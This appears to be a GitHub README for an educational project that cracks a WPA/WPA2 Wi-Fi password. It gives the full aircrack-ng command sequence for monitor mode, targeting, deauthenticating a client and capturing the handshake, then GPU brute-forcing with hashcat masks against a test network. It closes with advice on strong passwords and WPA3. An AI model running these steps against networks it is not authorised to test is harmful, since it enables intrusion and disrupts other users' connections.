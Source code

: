 Disclaimer:
This project is intended for educational and research purposes only.
Do NOT use this on networks or systems you do not own or have permission to test.
The author is not responsible for any misuse of this code.

Projet description

This project is used to brute-force wifi password using GPU.

Tools needed

1. CUDA toolkit

2. Hashcat

3. Network adaptor that supports monitor mode (In this project, i am using TP-Link AC600)

4. Kali linux VM

5. Windows Host Machine

Procedure

1. In the Windows host machine :

    We need to install Hashcat, which is used to crack the password, and CUDA toolkit in order to utilize the processing of the GPU to crack the password.

    You can refer to this link on how to install Hashcat and CUDA toolkit : https://www.youtube.com/watch?v=b5zQ6xTQGfY&t=578s

    08:31 - Downloading Hashcat

    10:51 - Downloading NVIDIA & CUDA Toolkit

    We need to install the driver on Kali Linux for the network adapter. We must use a network adapter that supports monitor mode, or else this hack would not work.

    You can refer to this link on how to install the driver for the network adapter TP-Link AC600 : https://www.youtube.com/watch?v=NQckErucvhI

2. In the Kali Linux VM :

    <img width="657" height="307" alt="image" src="https://github.com/user-attachments/assets/e036f1d4-f55b-458d-a845-b5a0381865d1" />

    Enter this command to kill any interfering processes that may interfere : **sudo airmon-ng check kill**

    Enter this command to enable monitor mode : **sudo airmon-ng start wlan0**

    Enter this command if we want to stop the monitor mode : sudo airmon-ng stop wlan0mon

    <img width="790" height="410" alt="image" src="https://github.com/user-attachments/assets/57fa2c2e-9024-4b14-b651-eb0e1092364d" />

    Enter this command to see the wifi available : **sudo airodump-ng wlan0**

    In this case, we select TEST-WIFI as the target network. We should take note of the BSSID and the CH used for the target network.

    <img width="817" height="202" alt="image" src="https://github.com/user-attachments/assets/73bae0d0-efc8-4a04-93db-4a5131fb3223" />

    Enter this command to only focus on the target network : **sudo airodump-ng -c `<CH>` --bssid `<BSSID>` -w capture wlan0**

    We need to take note of the BSSID and the Station. BSSID is the target network, and Station is the device connected to it. In order to perform this hack, we must carry out the deauthentication process, where we simply kick out the connected device and ask them to re-enter the password to capture the handshake, which we then can use Hashcat to perform the brute-force attack using GPU.

    <img width="777" height="160" alt="image" src="https://github.com/user-attachments/assets/332d75e0-94ad-43a1-a849-f4178461a96e" />

    Enter this command to carry out deauthentication process : **sudo aireplay-ng --deauth 5 -a `<BSSID>` -c `<CLIENT_MAC>` wlan0**

    In this process, the connected device will be forced to disconnect from the network and reconnect, allowing us to capture the handshake.

    <img width="783" height="198" alt="image" src="https://github.com/user-attachments/assets/4347b5a2-3525-4361-8ec6-23bf53d39cce" />

    In this image, the WPA handshake has been successfully captured.

    <img width="811" height="100" alt="image" src="https://github.com/user-attachments/assets/5b9dd72c-1fa5-4202-966d-ef184058b781" />

    We enter this command : **hcxpcapngtool -o TEST-WIFI-Captured.22000 capture-02.cap**

    This command allows us to convert that data into Hashcat’s 22000 format.

    Then, we need to transfer the TEST-WIFI-Captured file into the Windows host to crack the file. It is important that the capture file is in the same directory as the Hashcat file that has been downloaded into the Windows host.

3. In the Windows host

    <img width="1450" height="198" alt="image" src="https://github.com/user-attachments/assets/aad5970f-bbca-4c9f-8600-6cbc6952e554" />

    We enter this command : **hashcat.exe -m 22000 -a 3 TEST-WIFI-Captured.22000 ?d?d?d?d?d?d?d?d?d**

    This will crack a password of up to 9 digits.
   
    If we want to crack up to 9 of any characters we use this command : hashcat.exe -m 22000 -a 3 TEST-WIFI-Captured.22000 ?a?a?a?a?a?a?a?a?a

    <img width="997" height="148" alt="image" src="https://github.com/user-attachments/assets/dd0e84d7-baba-4aa7-928f-5b56c4a76ea0" />

    In this picture, it shows us that we successfully cracked the password, where the password is "123456789".

    Learning experience

    In this project, we must learn that we must put a very secure password to prevent this type of attack. With the evolving of wifi technology such as WPA3, it can prevent such attacks, where WPA3 uses the SAE handshake, which generates a unique secret per session, making captured handshakes useless for offline brute-force attacks. Only online guessing is possible, which is much slower.

